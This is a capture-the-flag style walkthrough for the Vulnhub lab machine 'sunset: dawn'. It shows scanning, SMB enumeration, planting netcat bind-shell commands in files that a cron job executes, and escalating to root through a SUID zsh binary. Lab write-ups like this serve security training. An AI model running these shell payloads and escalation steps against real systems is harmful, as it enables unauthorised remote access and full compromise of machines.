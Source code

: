 # Sunset-dawn-Vulnhub-Walkthrough
Sunset: dawn Vulnhub Walkthrough

**Description**
dawn is a boot2root machine with a difficulty designed to be Easy with multiple ways to be completed. It is recommended to use Virtualbox.

Vulnhub link: https://www.vulnhub.com/entry/sunset-dawn,341/

***Name: sunset: dawn
Date release: 3 Aug 2019
Author: whitecr0wz
Series: sunset***

So let's begin hacking!!

**Step 1: Scan the machine**

> nmap -sV -A <IP_address_of_your_machine>

![Screenshot](1.png)

As we can see that port 80 is open which is hosting Apache httpd service and also we have the port 139, 445, 3306 open. This tells us that we have the NetBIOS and MySQL service running on the target machine respectively.

**Step 2: Go to machine's IP in web browser**

In your web browser

>http://<IP_address_of_your_machine>  

![Screenshot](2.png)

This doesn't help us much! Let's try bruteforcing the IP with dirb.

**Step 3: Bruteforce the IP with dirb**

> dirb http://<IP_address_of_your_machine>

![Screenshot](3.png)

After bruteforcing we got a directory `logs` Let's see what it contains

In your web browser

>http://<IP_address_of_your_machine>/logs

![Screenshot](4.png)

Tried to access the various log files listed here, but it's forbidden except `management.log`

**Step 4: Access the management.log**

>cd Downloads

>cat management.log

![Screenshot](7.png)

From this we get to know there's a directory `ITDEPT` and it contains two files `web-control` and `product-control`.
As these files were mentioned with cron, we can say that these files are getting executed by some background task.

We found that there is a `NetBIOS` `SMB` port open in `nmap` result, so we can use the `enum4Linux` script. This shows that we have the `ITDEPT` directory we found earlier. This means this directory is accessible through `SMB`.

**Step 5: Access through enum4linux**

>enum4linux -a <IP_address_of_your_machine>

![Screenshot](6.png)

From this we came to know that there are two users `dawn` and `ganimedes`

![Screenshot](8.png)

**Step 6: Access through smbclient**

> smbclient //<IP_address_of_your_machine>/ITDEPT

>When asks for password press enter

![Screenshot](10.png)

Since we found the ITDEPT directory in our enumeration. We tried to access it using the SMB as shown in the sccreenshot. As we can see there is nothing there.

**Step 7: Create files**

> echo "nc -e /bin/bash -lvp 1234 &" > web-control

> echo "nc -e /bin/bash -lvp 1235 &" > product-control

![Screenshot](9.png)

We went back to our terminal and created the files by the name of `product-control` and `web-control`. We created the files by this name because earlier while enumerating the `management.log` file we saw that files with this name were executed after every minute. again and again, using cron. We also entered the `netcat` shell invocation script in those files using the `echo` command as well.

**Step 8: Upload the file**

> puts web-control

> puts product-control

![Screenshot](10b.png)

Now back to the SMB shell, we transferred the files that we just created to the target system using the put command. Both the files were successfully transferred. After the transfer, we ran the ls command to check whether the files were indeed on the system or not. As seen in the image given below, we have put our files on the target system. 

**Step 9: Check the log file**

In your web browser

>http://<IP_address_of_your_machine>/logs

>cd Downloads

(Check your new file name)
>cat management.log 

![Screenshot](11.png)

Refer to `Step 3` and `Step 4` for accessing `management.log`.
We can see that the file we created were successfully executed.

**Step 10: Using netcat**

> nc <IP_address_of_your_machine> 1234

> python -c 'import pty;pty.spawn("/bin/bash")' 

![Screenshot](12.png)

Using netcat we got our shell. For a proper shell we used the python one-liner. And after this we came to know this shell belongs to user `dawn`.

**Step 11: Acceessing root**

>find / -perm -u=s -type f 2>/dev/null

>whoami

>/usr/bin/zsh

>whoami

>cd /root

>ls

>cat flag.txt

![Screenshot](13.png)

As we got our shell, it's a regular practice to check for any file having SUID permissions with the help of `find command`.From this, we enumerated all binaries having SUID permissions:
The `find` command gave us that the `zsh` command can help us escalate privilege on this machine.
We ran the zsh command and checked our status using the `whoami` command.
We got root. Now it was time to enumerate for the flag. We traversed into the root directory and found the `flag.txt` file.

**Thank you**




